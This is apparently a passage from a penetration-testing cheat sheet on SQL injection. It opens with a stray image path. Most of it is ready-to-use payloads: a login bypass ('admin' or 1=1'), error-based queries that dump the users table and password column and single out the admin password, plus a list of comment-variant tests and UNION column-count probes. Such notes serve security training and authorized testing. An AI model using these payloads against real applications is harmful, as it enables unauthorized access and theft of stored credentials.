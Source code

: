 Show all from `users` table from `user` database:
```
select * from user.dbo.users;
```
#### Manual testing
##### Error-based
In-band: the vulnerable application provides the result of the query along with the application-returned value

Bypass login:
```
admin' or 1=1 -- //
```

Check version
```
' or 1=1 in (select @@version) -- //
```

Dump all from users table:
```
' OR 1=1 in (SELECT * FROM users) -- //
```

Dump all from password column:
```
' OR 1=1 in (SELECT password FROM users) -- //
```

Filter only `admin` user:
```
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

Other tests:
```
' or 1=1 -- -
' or 1=1 #
'or 1#
' or 1=1 --
' or 1=1 -- -
admin\'-- -
```

#### UNION-based Payloads
For UNION SQLi attacks to work, we first need to satisfy **two** conditions:
1. The injected **UNION** query has to include the same number of columns as the original query.
2. The data types need to be compatible between each column.

Test until error:
```
' ORDER BY 1-- //
```
or
```
' union select null,null,null-- //
```
